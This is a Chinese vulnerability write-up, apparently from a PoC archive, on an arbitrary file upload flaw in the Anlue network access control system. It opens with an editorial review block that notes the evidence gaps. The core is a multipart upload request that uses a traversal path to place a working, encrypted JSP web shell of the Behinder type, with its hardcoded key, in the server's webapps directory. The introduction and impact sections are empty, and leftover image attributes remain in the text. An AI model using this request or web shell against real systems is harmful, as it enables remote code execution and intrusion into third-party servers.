

# 安略网络准入控制系统 任意文件上传漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：安略网络准入控制系统
- 本文讨论：uploadfileToPath.htm uploadpath目录穿越写JSP
- 版本、权限与配置前提：JSP解析、Tomcat相对webapps目录；认证与版本未知
- 资料类型：上传请求片段；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 简介/影响章节空，HTTP头被...省略无法判断鉴权
- 写../webapps/notifymsg/devreport与最终访问URL仅图示，缺响应
- 图片尺寸属性残留；外部参考未固定源码/版本

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留

### 待核与来源

- 厂商版本、会话条件、图中执行证据待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

{width="5.833333333333333in"
height="3.357933070866142in"}

    POST /uai/download/uploadfileToPath.htm HTTP/1.1
    HOST: www.0-sec.org
    ... ...
    
    -----------------------------570xxxxxxxxx6025274xxxxxxxx1
    Content-Disposition: form-data; name="input_localfile"; filename="xxx.jsp"
    Content-Type: image/png
    
    <%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
    
    -----------------------------570xxxxxxxxx6025274xxxxxxxx1
    Content-Disposition: form-data; name="uploadpath"
    
    ../webapps/notifymsg/devreport/
    -----------------------------570xxxxxxxxx6025274xxxxxxxx1--

{width="5.833333333333333in"
height="1.9321555118110236in"}

{width="5.833333333333333in"
height="3.0186636045494315in"}

参考链接
--------

> https://my.oschina.net/u/4391448/blog/4562455
>
> https://blog.csdn.net/God\_XiangYu/article/details/108555525
